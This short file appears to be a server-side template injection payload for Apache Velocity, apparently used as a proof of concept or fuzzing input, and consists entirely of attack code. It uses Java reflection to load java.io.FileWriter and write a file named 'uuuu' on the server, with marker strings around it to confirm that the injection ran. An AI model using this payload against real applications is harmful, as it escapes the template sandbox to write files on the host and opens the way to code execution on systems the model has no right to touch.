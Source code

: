 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set ($a=$e.getClass().forName("java.io.FileWriter"))
#set ($b=$a.FileWriter("./uuuu"))
#set ($c=$b.write("zzz"))
#set ($d = $b.flush())
#set ($f = $b.close())
$a
$b
$c
$d
$f
$monkey
